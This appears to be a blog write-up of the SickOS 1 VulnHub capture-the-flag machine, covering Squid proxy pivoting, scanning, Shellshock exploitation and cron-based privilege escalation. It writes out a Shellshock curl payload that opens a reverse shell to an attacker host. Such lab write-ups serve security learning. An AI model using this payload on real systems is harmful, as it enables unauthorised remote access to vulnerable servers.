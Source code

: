 ```yaml
---
title: "SickOS 1"
date: 2024-07-22
draft: false
summary: "Writeup for SickOS 1 CTF challenge on VulnHub."
tags: ["linux", "cron", "shellshock"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/sickos1/cover.webp"
  caption: "SickOS 1 VulnHub Challenge"
  alt: "SickOS 1 cover"
platform: "VulnHub"
---
```


SickOS is a boot2root challenge with the objective of compromising the machine and gaining root privilege on it.
<!--more-->
To download **sickos 1**, click on the link given below :-
- https://www.vulnhub.com/entry/sickos-11,132/

## Recon

I performed a network scan to identify the targe IP.

```bash
nmap -sn 192.168.1.0/24                                        
```

I then performed an **nmap** aggressive scan to identify open ports, services running on them and additional service information.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN sick1.nmap
```

![](https://cdn.ziomsec.com/sickos1/1.webp)

## Initial Foothold

I accessed the web server on the open port but got an error message. This error page revealed the version of squid server.

![](https://cdn.ziomsec.com/sickos1/2.webp)

I googled the **squid** version and found this **hacktricks** article where it referenced a scanner to find open ports:
- https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid

![](https://cdn.ziomsec.com/sickos1/3.webp)

Hence, I downloaded the **python** script and ran it to find discover additional ports.
- https://github.com/aancw/spose

```shell
git clone https://github.com/aancw/spose.git
cd spose
python spose.py --proxy http://TARGET:SQUID_PORT --target TARGET
```

![](https://cdn.ziomsec.com/sickos1/4.webp)

I then used the **squid** server as proxy and accessed port 80.

```shell
curl --proxy http://TARGET:3128 http://TARGET:80
```

![](https://cdn.ziomsec.com/sickos1/5.webp)

I then set the proxy on my browser and accessed it through the browser.

![](https://cdn.ziomsec.com/sickos1/6.webp)

![](https://cdn.ziomsec.com/sickos1/7.webp)

Since the landing page did not reveal anything, I used **gobuster** to find hidden files.

```shell
gobuster dir --proxy http://TARGET:3128 -u http://TARGET/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](https://cdn.ziomsec.com/sickos1/8.webp)

The *robots.txt* file could contain interesting endpoints, so I accessed it:

```shell
curl --proxy http://TARGET:3128 http://TARGET/robots.txt
```

![](https://cdn.ziomsec.com/sickos1/9.webp)

I revealed an endpoint leading to *wolf CMS*.

![](https://cdn.ziomsec.com/sickos1/10.webp)

The page did not reveal anything interesting, so I ran a **nikto** scan on the target.

```shell
nikto -useproxy http://TARGET:3128 -h http://TARGET
```

![](https://cdn.ziomsec.com/sickos1/11.webp)

The scan identified a **Shellshock** vulnerability on the server.

> **Shellshock** (also known as Bashdoor) is a security bug in the Bash (Bourne Again Shell) command-line shell, widely used in Unix-based systems such as Linux and macOS. Discovered in September 2014, Shellshock allows attackers to execute arbitrary commands on vulnerable systems.

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

I referred to the above article and got a reverse shell by exploiting the vulnerability.

```shell
curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/KALI/PORT 0>&1" --proxy http://TARGET:3128 http://TARGET/cgi-bin/status
```

![](https://cdn.ziomsec.com/sickos1/12.webp)

## Privilege Escalation

To perform further enumeration, I downloaded the **linux smart enumeration** script locally and transferred it to the target.

![](https://cdn.ziomsec.com/sickos1/13.webp)

![](https://cdn.ziomsec.com/sickos1/14.webp)

It discovered a python file that was being run by root.

![](https://cdn.ziomsec.com/sickos1/15.webp)

I read the file and found out that it just had few print statements.

![](https://cdn.ziomsec.com/sickos1/16.webp)

Since I had write access over it, I added a code block that would get me a reverse shell.

![](https://cdn.ziomsec.com/sickos1/17.webp)

After the file got executed by root, I got a reverse shell on my listener.

![](https://cdn.ziomsec.com/sickos1/18.webp)

Finally I captured the flag from */root* directory.

![](https://cdn.ziomsec.com/sickos1/19.webp)

## Closure

Here's a summary of how I obtained the root flag:
- I used the **squid** proxy to connect to the target web server.
- Upon accessing the target, I performed a **nikto** scan and identified a **shellshock** vulnerability in one of the paths.
- I exploited this vulnerability to execute a **bash** script and obtain a reverse shell.
- I then ran the **linux smart enumeration** script to identify misconfigurations for privilege escalation.
- I modified the Python script that was executed via **crons** with **root** privileges.
- With the reverse shell as the **root** user, I captured the flag from the */root* directory.

That's it from my side, until next time :)
Happy Hacking! 🎉

---